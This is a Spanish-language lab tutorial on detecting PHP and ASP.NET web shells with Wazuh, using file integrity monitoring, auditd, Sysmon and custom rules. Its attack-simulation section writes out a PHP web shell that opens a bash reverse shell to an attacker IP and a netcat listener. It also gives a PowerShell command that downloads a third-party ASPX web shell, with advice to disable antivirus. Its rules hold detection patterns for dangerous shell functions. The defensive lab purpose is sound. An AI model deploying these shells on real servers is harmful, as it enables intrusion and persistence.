



## ¿Qué es Wazuh?

Wazuh, en palabras de su creador, el español Santiago Basset, es una proyecto open source que trata de prevenir, detectar y responder a amenazas.

Técnicamente podría considerarse un HIDS (Host Intrusion Detection System). Estos dispositivos centraban la importancia en los eventos en la red. Sin embargo ésta es una tendencia cambiante, como vemos en este gráfico de ejemplo de MITRE:



Así pues, Wazuh quizás se acerque más a un [XDR](https://wazuh.com/platform/xdr/) o un [SIEM](https://wazuh.com/platform/siem/).

## Web shells

Los cibercriminales utilizan diferentes técnicas para conseguir la persistencia en un sistema previamente comprometido. Una de estas técnicas son las web shells.

### ¿Qué son las webshells?

Son scripts web que permiten a los atacantes acceso remoto sin restricciones. Puede pasar que un atacante logra comprometer un servidor, consiguiendo el acceso inicial al servicio web mediante alguna técnica ya conocida (SQLi, XSS, RFI...).

Con este compromiso inicial, se puede intentar realizar la inyección de una web shell en el directorio del servidor y que constituirá un *backdoor* que dará paso a actividades post-explotación (ejecución de comandos, exfiltración de información, infección de malware...).



La mayoría de los web shells siguen los mismos principios de diseño y e intenciones. Normalmente suelen estar escritos en lenguajes soportados por los servidores web: PHP, ASP, ASP.NET, Perl, Python...

### Indicadores comunes de los web shells

+ **<u>Archivos subidos o modificados recientemente:</u>** los atacantes suelen subir sus web shells en los directorios utilizados por los servidores web o modificar archivos ya presentes en ellos. Disonancias en las fechas de modificación pueden ser un indicativo.</u>
+ **<u>Conexiones de red inusuales:</u>** las web shell puede que tengan que poner determinados puertos a la escucha para establecer *reverse shells* o shells inversas hacia los atacantes. Esto producirá tráfico inusual (TCP o UDP), que puede ser un indicador de compromiso.
+ **<u>Configuraciones extrañas/erróneas y cabeceras modificadas:</u>** cabeceras clásiscas de las peticiones HTTP son *user-agent* o *referer*. Los atacantes pueden realizar la modificación de estas cabeceras de tal forma que se intente una ejecución de comandos mediante ellas.
+ **<u>Técnicas de ofuscación:</u>** puede que el atacante emplee técnicas de codificación, compresión o sustitución para intentar ser detectado por los sitemas de seguridad.

## Manos a la obra, configuración del laboratorio

Para este laboratorio utilizaremos AWS, por la versatilidad que nos ofrece y así deshacernos de los problemas de infraestructa a los que pueda limitarnos nuestra máquina. Se van a utilizar **4 máquinas**:

1. **Amazon Linux 2:** para instalar el servidor de Wazuh.
2. **Ubuntu:** como víctima endpoint que está ejecutando un agente de Wazuh. Correrá un servidor Apache para aplicaciones PHP.
3. **Windows Server 2022:** otra víctima endpoint ejecutadno otro agente de Wazuh. Correrá un servidor IIS para aplicaciones ASP.NET.
4. **Debian:** como máquina atacante.
 
### Wazuh server en Amazon Linux 2

La instalación del servidor de Wazuh o Wazuh manager se puede realizar siguiendo [este](https://documentation.wazuh.com/current/quickstart.html) sencillo tutorial.

### Agente Wazuh en Ubuntu 22.04

Los pasos vienen detallados [aquí](https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-linux.html)

!!!warning "Atención"
        Elegid la pestaña ***APT***, que es la que os dará las indicaciones para realizar las acciones con el gestor de paquetes correspondiente.

### Agente de Wazuh en Windows Server 2022

En este caso las instrucciones están [aquí](https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-windows.html) y os dará la opción, en las pestañas, de elegir una instalación gráfica o por línea de comandos.

!!!Warning "Atención"
        Recordad poner como IP de Wazuh manager la de vuestro server de Wazuh.


### Servidor web Apache en endpoint Ubuntu

Pasos a seguir:

1. Instalar Apache:

    ```console
    $ sudo apt-get update
    $ sudo apt-get install apache2
    ```

2. Instalar PHP 8.1 para poder correr aplicaciones PHP

    ```console
    $ sudo apt-get install --no-install-recommends php8.1
    ```

    Así evitaremos instalar paquetes adicionales.

3. Para verificar la instalación podemos acceder a la URL: `http://IP_UBUNTU_ENDPOINT`y nos mostrará la página por defecto de Apache.


### Servidor web IIS en endpoint Windows Server

Para proceder con esta instalación:

1. En el menú de inicio de Windows, escribimos `appwiz.cpl` y le decimos *Turn Windows features on or off*:

    

2. En *Server Roles* instalamos **Web Server (IIS)** conm, al menos, las siguientes funciones:
    
    

3. Para verificar la instalación accedemos a la URL: `http://IP_WINDOWS_ENDPOINT`

## Escenario hipotético

El endpoint Ubuntu corre un Apache con PHP instalado y el endpoint Windows Server corre un servidor web IIS, capaz de interpretar código ASP.NET.

Puesto que las web shells se consideran malware post-explotación, hemos de asumir que el atcante ya posee acceso inicial a los endpoints. Lo que el atacante desea conseguir es la persistencia en el sistema comprometido con el fin de llevar a cabo estas labores de  post-explotación.

## Técnicas de detección

Utilizaremos distintas capacidades de Wazuh para detectar la presencia de web shells en PHP o ASP.NET.

### Integridad de ficheros

Utilizaremos **FIM (File Integritiy Monitorint)** para deteta rla creación y modificación de archivos que contengan web shells.

El módulo FIM de Wazuih puede detectar, casi en tiempo real, cambios en los archivos accesibles via web y de esta forma alertar a los administradores.

Usaremos este módulo para detectar cuando se han creado o odificado archivos en `/var/wwww/html`y en `C:\inetpub\wwwroot`, directorios raiz por defecto en Ubuntu y Windows respectivamente.

Además, FIM escanea los contenidos de los archivos para monitorizar la aparción de firmas de web shells cuando los archivos se modifican.

#### Configuración de Ubuntu

1. Añadir la siguiente configuración al agente de Wazuh en el archivo `/var/ossec/etc/ossec.conf`, dentro del bloque `<syscheck>`:

    ```html
    <directories realtime="yes" check_all="yes" report_changes="yes">/var/www/html</directories>
    ```
    Esto detecta los cambios en el directorio `/var/www/html`.

2. Reiniciar el agente de Wazuh para aplicar los cambios en la configuración:

    ```console
    $ sudo systemctl restart wazuh-agent
    ```

#### Configuración de Windows

1. Añadir la siguiente configuración al agente de Wazu en el archivo `C:\Program Files (x86)\ossec-agent\ossec.conf`, dentro del bloque `<syscheck>`:

    ```html
    <directories realtime="yes" check_all="yes" report_changes="yes">C:\inetpub\wwwroot</directories>
    ```

2. Corriendo una terminal de Powershell como administrador, reinicia el agente de Wazuh para aplicar los cambios en la configuración:

    ```powershell
    > Restart-Service -Name wazuh
    ```

#### Configuración del servidor de Wazuh

1. Crear un archivo de reglas personalizado `reglas_webshell.xml` en el directorio `/var/ossec/etc/rules/` y colocar en él las siguientes reglas:

    ```xml title="reglas_Webshell.xml" linenums="1"
    <group name="linux, webshell, windows,">
    <!-- Esta regla detecta la creación de archivos -->
    <rule id="100500" level="12">
    <if_sid>554</if_sid>
    <field name="file" type="pcre2">(?i).php$|.phtml$|.php3$|.php4$|.php5$|.phps$|.phar$|.asp$|.aspx$|.jsp$|.cshtml$|.vbhtml$</field>
    <description>[File creation]: Possible web shell scripting file ($(file)) created</description>
    <mitre>
    <id>T1105</id>
    <id>T1505</id>
    </mitre>
    </rule>

    <!-- Esta regla detecta la modificación de archivos -->
    <rule id="100501" level="12">
    <if_sid>550</if_sid>
    <field name="file" type="pcre2">(?i).php$|.phtml$|.php3$|.php4$|.php5$|.phps$|.phar$|.asp$|.aspx$|.jsp$|.cshtml$|.vbhtml$</field>    
    <description>[File modification]: Possible web shell content added in $(file)</description>
    <mitre>
    <id>T1105</id>
    <id>T1505</id>
    </mitre>
    </rule>

    <!-- Esta regla detecta la modificación de archivos con firmas asociadas a web shells de PHP -->
    <rule id="100502" level="15">
    <if_sid>100501</if_sid>
    <field name="changed_content" type="pcre2">(?i)passthru|exec|eval|shell_exec|assert|str_rot13|system|phpinfo|base64_decode|chmod|mkdir|fopen|fclose|readfile|show_source|proc_open|pcntl_exec|execute|WScript.Shell|WScript.Network|FileSystemObject|Adodb.stream</field>
    <description>[File Modification]: File $(file) contains a web shell</description>
    <mitre>
    <id>T1105</id>
    <id>T1505.003</id>
    </mitre>
    </rule>
    </group>
    ```

2. Reiniciar Wazuh manager para aplicar la configuración de los cambios
   
     ```console
     $ sudo systemctl restart wazuh-manager
     ```

### Usando reglas personalizadas para detectar indicios de web shells

Wazuh permite escribir reglas personalizadas que disparan alertas cuando se detectan determinadas características en logs. Además integraremos Wazuh con **auditd** en endpoints Linux y **Sysmon** en Windows para enriquecer los fuentes de logs, para así mejorar la seguridad.

#### Ubuntu

**Auditd** (de Linux Audit Daemon) es una utilidad que recopila y almacena eventos del sistema tales como llamadas al sistema (*syscall*) y funciones. Usando auditd podemos monitorizar comandos del sistema así como conexciones de red que lleve a cabo un usuario de servidor web, escribiendo reglas que generen una alerta cuando esto ocurra.

Así las cosas:

1. Actualizar los paquetes de los respositorios e instalar **auditd**:

    ```console 
    $ sudo apt update
    $ sudo apt install auditd
    ```

2. Enviar los logs de *auditd* al servidor de Wazuh para su análisis, añadiendo para ello la siguiente configuración al agente de Wazuh en el archivo `/var/ossec/etc/ossec.conf`:

    ```xml
    <ossec_config>
    <localfile>
        <location>/var/log/audit/audit.log</location>
        <log_format>audit</log_format>
    </localfile>
    </ossec_config>
    ```

3. Obtener el identificador dle usuario del servidor web Apache ejecutando el siguiente comando:

    ```console
    $ sudo apachectl -S
    ```

    ???note "Salida"

        ```sh hl_lines="12"
        VirtualHost configuration:
        *:80                   127.0.1.1 (/etc/apache2/sites-enabled/000-default.conf:1)
        ServerRoot: "/etc/apache2"
        Main DocumentRoot: "/var/www/html"
        Main ErrorLog: "/var/log/apache2/error.log"
        Mutex mpm-accept: using_defaults
        Mutex watchdog-callback: using_defaults
        Mutex default: dir="/var/run/apache2/" mechanism=default 
        PidFile: "/var/run/apache2/apache2.pid"
        Define: DUMP_VHOSTS
        Define: DUMP_RUN_CFG
        User: name="www-data" id=33
        Group: name="www-data" id=33
        ```

4. Añadir al archivo de configuración de *auditd* `/etc/audit/rules.d/audit.rules`, usando el id de usuario en el paso 3, lo siguiente:

    ```sh
    ## Auditd rules that detect command execution from user www-data.
    -a always,exit -F arch=b32 -S execve -F uid=<USER_ID> -F key=webshell_command_exec
    -a always,exit -F arch=b64 -S execve -F uid=<USER_ID> -F key=webshell_command_exec

    ## Auditd rules that detect network connections from user www-data.
    -a always,exit -F arch=b64 -S socket -F a0=10 -F euid=<USER_ID> -k webshell_net_connect
    -a always,exit -F arch=b64 -S socket -F a0=2 -F euid=<USER_ID> -k webshell_net_connect
    -a always,exit -F arch=b32 -S socket -F a0=10 -F euid=<USER_ID> -k webshell_net_connect
    -a always,exit -F arch=b32 -S socket -F a0=2 -F euid=<USER_ID> -k webshell_net_connect
    ```

5. Reiniciar *auditd* y el agente de Wazuh para aplicar los cambios en la configuración:

```console
$ sudo systemctl restart auditd
$ sudo systemctl restart wazuh-agent
```

#### Windows

System Monitor (Sysmon) es un servicio de sistema de Windows que monitoriza y registra la actividad del sistema en los logs de eventos de Windows.

Complementa los logs con información detallada sobre la creación de procesos o conexiones de red, entre otros. Por ejemplo, Sysmon puede monitorizar el proceso `w3wp.exe,`componente fundamental del servidor web de Microsoft Internet Information Services (IIS). Este proceso se encarga de manejar las solicitudes HTTP recibidas por el servidor web y de procesarlas para generar las respuestas correspondientes.

IIS tiene una funcionalidad de seguridad llamada *application pool* que permite que un pool de aplicaciones se ejecuten únicamente con una única cuenta, cuyo nombre por defecto es `DefaultAppTool`. 

Con esta cuenta, el proceso de IIS corre exclusivamente con privilegios de usuario. Los atacantes suelen aprovechar este proceso para abrir terminales de **PowerShell** o **cmd**. 

Explicado lo anterior, para configurar Sysmon y que Wazuh procese sus logs, haremos:

1. Descargar en nuestra máquina Windows el instalador de [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) y el [archivo de configuración que necesitamos](https://wazuh.com/resources/blog/emulation-of-attack-techniques-and-detection-with-wazuh/sysmonconfig.xml)

2. Instalar Sysmon, usando la configuración descargada, mediante un terminal de PowerShell corriendo con privilegios de administrador:

```console
> .\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

3. Añadir las siguientes líneas de configuración al archivo `C:\Program Files (x86)\ossec-agent\ossec.conf`, encargado de la captura y redireción de logs de Sysmon hacia el servidor de Wazuh:

```xml
<ossec_config>
  <localfile>
    <location>Microsoft-Windows-Sysmon/Operational</location>
    <log_format>eventchannel</log_format>
  </localfile>
</ossec_config>
```

4. Reiniciar el agente de Wazuh para aplicar los cambios en la configuración:


    ```powershell
    > Restart-Service -Name wazuh
    ```

#### Amazon Linux 2 (Wazuh server)

1. Añadir al archivo de configuración `/var/ossec/etc/rules/reglas_webshell.xml`, las siguientes reglas que intenta detectar comandos ejecutados por una web shell, así como conexiones de red establecidas:

    ???note "reglas_webshell.xml"
        ```xml
        <!-- Reglas Linux. -->
        <group name="auditd, linux, webshell,">
        <!-- Eta regla detecta comandos ejecutados por una web shell -->
        <rule id="100520" level="12">
            <if_sid>80700</if_sid>
            <field name="audit.key">webshell_command_exec</field>
            <description>[Command execution ($(audit.exe))]: Possible web shell attack detected</description>
            <mitre>
            <id>T1505.003</id>
            <id>T1059.004</id>
            </mitre>
        </rule>
        <!-- Esta regla detecta conexiones de red realizadas por una web shell -->
        <rule id="100521" level="12">
            <if_sid>80700</if_sid>
            <field name="audit.key">webshell_net_connect</field>
            <description>[Network connection via $(audit.exe)]: Possible web shell attack detected</description>
            <mitre>
            <id>TA0011</id>
            <id>T1049</id>
            <id>T1505.003</id>
            </mitre>
        </rule>
        </group>

        <!-- Reglas Windows -->
        <group name="sysmon, webshell, windows,">
        <!-- Esta regla detecta comandos ejecutados por una web shell  -->
        <rule id="100530" level="12">
            <if_sid>61603</if_sid>
            <field name="win.eventdata.parentImage" type="pcre2">(?i)w3wp\.exe</field>
            <field name="win.eventdata.parentUser" type="pcre2">(?i)IIS\sAPPPOOL\\\\DefaultAppPool</field>
            <description>[Command execution ($(win.eventdata.commandLine))]: Possible web shell attack detected</description>
            <mitre>
            <id>T1505.003</id>
            <id>T1059.004</id>
            </mitre>
        </rule>

        <!-- Esta regla detecta conexiones de red realizadas por una web shell -->
        <rule id="100531" level="12">
            <if_sid>61605</if_sid>
            <field name="win.eventdata.image" type="pcre2">(?i)w3wp\.exe</field>
            <field name="win.eventdata.user" type="pcre2">(?i)IIS\sAPPPOOL\\\\DefaultAppPool</field>
            <description>[Network connection]: Possible web shell attempting network connection on source port: $(win.eventdata.sourcePort) and destination port: $(win.eventdata.destinationPort)</description>
            <mitre>
            <id>TA0011</id>
            <id>T1049</id>
            <id>T1505.003</id>
            </mitre>
        </rule>
        </group>
        ```

4. Reiniciar el manager de Wazuh para aplicar los cambios en la configuración:


    ```console
    $ sudo systemctl restart wazuh-manager
    ```

### Usando monitorización de comandos para detectar las conexiones de red de un posible ataque

En esta sección usaremos la monitorización de comandos para complementar el uso de *auditd* en el endpoint Linux. Nos servirá para obtener información adicional sobre las direcciones IP/puertos desde los que se originan los ataques.

#### Ubuntu

1. Añadir las siguientes configuraciones al archivo de configuración del agente Wazuh `/var/ossec/etc/ossec.conf`. Esto determina el comando que se ejecutará en el endpoint:

    ```xml
    <ossec_config>
    <localfile>
        <log_format>full_command</log_format>
        <command>ss -nputw | egrep '"sh"|"bash"|"csh"|"ksh"|"zsh"' | awk '{ print $5 "|" $6 }'</command>
        <alias>webshell connections</alias>
        <frequency>120</frequency>
    </localfile>
    </ossec_config>
    ```
2.  Reiniciar el agente de Wazuh par aplicar los cambios de configuración:

    ```console
    $ sudo systemctl restart wazuh-agent
    ```

#### Amazon Linux 2 (Wazuh server)

1. Añadir, en el archivo de configuración `/var/ossec/etc/decoders/local_decoder.xml` los siguientes decodificadores para decodificar patrones de conexiones de red establecidas por web shells en los servidores web:

    ```xml
    <!-- Decodificar para las conexiones de red de web shells -->
    <decoder name="network-traffic-child">
      <parent>ossec</parent>
      <prematch offset="after_parent">^output: 'webshell connections':</prematch>
      <regex offset="after_prematch" type="pcre2">(\d+.\d+.\d+.\d+):(\d+)\|(\d+.\d+.\d+.\d+):(\d+)</regex>
      <order>local_ip, local_port, foreign_ip, foreign_port</order>
    </decoder>
    ```
   
2. Añadir al archivo de configuración `/var/ossec/etc/rules/reglas_webshell.xml`, las siguientes reglas que intentna detectar conexiones de red establecidas por web shells en los servidores web:

    ```xml 
    <!-- Regla detectar conexiones red web shells -->
    <group name="linux, webshell,">
      <rule id="100510" level="12">
        <decoded_as>ossec</decoded_as>
        <match>ossec: output: 'webshell connections'</match>
        <description>[Network connection]: Script attempting network connection on source port: $(local_port) and destination port: $(foreign_port)</description>
        <mitre>
          <id>TA0011</id>
          <id>T1049</id>
          <id>T1505.003</id>
       </mitre>
      </rule>
    </group>
    ```

3. Reiniciar el manager de Wazuh para aplicar los cambios en la configuración:

    ```console
    $ sudo systemctl restart wazuh-manager
    ```

## Simulación de ataque

A continuación se detallan los pasos para simular como funcionan las web shells en los endpoints comprometidos.

### Pasos para simular el ataque contra el endpoint Ubuntu

#### Ubuntu

Ejecutar los siguientes pasos con privilegio de *root*.

1. Crear un archivo, por ejemplo `webshell.php` en el directorio del servidor web `/var/www/html` con la siguiente línea de código que ejecutará una shell inversa:

    ```php
    echo -e "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/<IP_DEBIAN>/4444 0>&1\"');?>" > /var/www/html/webshell.php
    ```

#### Debian

1. En el terminal de nuestra Debian utilizaremos netcat (nc, instaladlo si no lo está) para escuchar conexiones en el puerto **4444**:

    ```bash
    $ nc -nlvp 4444
    ```

2. Ejecutar la web shell desde nuestro navegador accediendo a la URL `http://<IP_UBUNTU>/webshell.php`, de tal forma que se establezca una shell inversa con el endpoint Ubuntu hacia nuestra Debian atacante.


3. En el terminal que nos aparecerá en el netcat de nuestra Debian, ejecutar varios comandos tales como `id`, `cat /etc/passwd`, `whoami`...


#### Ver las alertas

En el dashboard de Wazuh, navegar a ***Security events*** y visualizar las alertas generadas:


### Pasos para simular el ataque contra el endpoint Windows

#### Windows

!!!warning "Atención"
    Es más que probable que necesitéis desactivar el antivirus y la detección de amenazas de Windows para que os funcione esta parte.

Ejecutar los siguientes pasos en una terminal de PowerShell ejecutándose como administrador:

1. Descargar una copia de una web shell en el directorio del servidor web `C:\inetput\wwwroot` y llamarla, por ejemplo, `webshell.aspx`:

    ```powershell
    > Invoke-WebRequest -OutFile 'C:\Users\Public\Downloads\webshell.aspx' -Uri https://privdayz.com/cdn/txt/aspx.txt
    > copy 'C:\Users\Public\Downloads\webshell.aspx' 'C:\inetpub\wwwroot\webshell.aspx'
    ```

#### Debian

1. En el terminal de nuestra Debian escuchamos conexiones en el puerto **4444**:

    ```bash
    $ nc -nlvp 4444
    ```

2. Acceder a la web shell desde nuestro navegador mediante la URL `http://<IP_WINDOWS>/webshell.aspx`.

    La contraseña de la web shell es **admin**. En el menú *CmdShell*, ejecuta comandos tales como `whoami`, `ipconfig`...

3. En el menú *PortMap*, introducir la IP de nuestra Debian como **Remote IP**, `4444` como **Remote Port** y `5555` como **Local Port**. Tras ello, pulsar **MapPort**

#### Ver las alertas

En el dashboard de Wazuh, navegar a ***Security events*** y visualizar las alertas generadas:


## Recapitulación y conclusiones

+ Las web shells de cualquier tipo suelen tener comportamientos similares, esto es, crean o modifican archivos presentes en los directorios de los servidores web, realizando conexiones de red para establecer shells inversas y ejecutando comandos para tareas post-explotación.

+ Con Wazuh podemos ser capaces de detectar estas web shells, usando FIM y la monitorización de comandos

+ También hemos realizado la integración de *auditd* y *Sysmon* con Wazuh, aportando así más información a los logs, siendo capaces de realizar una mejor detección en los endpoints comprometidos

+ No obstante, es recomendable que las organizaciones además tengan en marcha defensas contra las tareas de post-explotación como puedan ser el escaneo y parcheo de sistemas y aplicaciones vulnerables, así como políticas de seguridad que monitoricen malas configuraciones de los sistemas.